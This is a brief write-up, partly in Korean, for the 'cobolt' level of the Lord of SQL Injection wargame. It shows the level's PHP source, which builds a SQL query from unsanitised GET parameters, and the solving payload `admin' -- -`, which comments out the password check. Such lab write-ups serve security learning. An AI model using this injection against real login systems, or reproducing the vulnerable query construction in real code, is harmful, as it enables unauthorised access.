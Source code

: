 # Lord-Of-SQL-Injection 02 cobolt

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
    highlight_file(__FILE__);
?>
```

## How to solve

gremlin 과 똑같이 `admin' -- -` 를 id 쿼리 스트링 안에 넣으면 된다.

쿼리는 `select id from prob_cobolt where id='admin' -- -' and pw=md5('')` 가 된다.